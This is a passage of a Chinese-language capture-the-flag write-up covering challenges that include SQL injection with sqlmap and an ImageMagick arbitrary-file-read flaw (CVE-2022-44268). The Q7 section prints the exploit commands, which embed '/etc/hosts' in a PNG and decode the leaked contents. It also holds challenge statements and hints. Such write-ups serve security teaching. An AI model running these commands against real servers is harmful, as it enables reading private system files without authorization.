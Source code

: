 [提示五]
打開API後需要用什麼Decode
#### Exploit
1. 通靈登入介面
2. sqlmap直接打，有打出time based的部分，就卡住了
3. 另外一組的jin也是卡在這邊
### Q7
#### 題目敘述
>透過情報收集，發現此網頁有上傳檔案服務的一個頁面，是一個免費的開源跨平台軟件套件，發現此版本可能有漏洞可利用。
此測試機存在一個上傳圖片的服務，且它存在著某個漏洞，讓你有機會可以進行攻擊，拿到內部存在的資料
>
>[連線IP/連結資訊]
>192.168.100.83
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
網頁服務使用了什麼圖片編輯工具?檢視原始碼有重要訊息!

[提示二]
網頁弱點為ImageMagick 任意文件讀取

[提示三]
請上傳圖片得到必要訊息

[提示四]
下載上傳後的圖片分析內容
#### Exploit
1. 先掃port: nmap->8080
2. 確認目前的開源工具為ImageMagick
3. 搜尋一下ImageMagick的Vulnerability->CVE-2022-44268
4. 用[現成工具](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
```bash
$ sudo apt-get install pngcrush exiftool exiv2 -y
$ pngcrush -text a "profile" "/etc/hosts" abc.png
$ exiv2 -pS pngout.png
```
上傳到系統，如果該檔案存在就會回傳一張圖片到前端供我們下載，之後就可以用exiftool分析
```bash
$ exiftool return.png
...
Raw Profile Type                : ..      13.6539323739343234366663300a.
...
$ python -c "print(bytes.fromhex('6539323739343234366663300a').decode('utf-8'))"
e92794246fc0
```
目前不知道具體flag的位置和檔案名稱

賽後和asef以及ccccc有聊到這一題，發現居然是在前端的code有一串base64被hidden，裡面其實就是flag檔案的絕對位置，幹...真的通好久啊
### Q8
#### 題目敘述
>你透過情報收集，聽聞某集團子公司有項服務上線使用的測試主機(192.168.100.88)因資訊人員便宜行事竟放在公開網路上。
此測試機(Spring Framework)的某項專案裡存在一個Web表單服務(/greeting)，它存在著某個漏洞，讓你有機會可以進行攻擊，你需要先找到正確的服務端口與頁面，並藉由這個程式的漏洞取得遠端主機的控制權限，進而取得公司內部資料(flag.txt)。
>
>[連線IP/連結資訊]
>192.168.100.88
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}
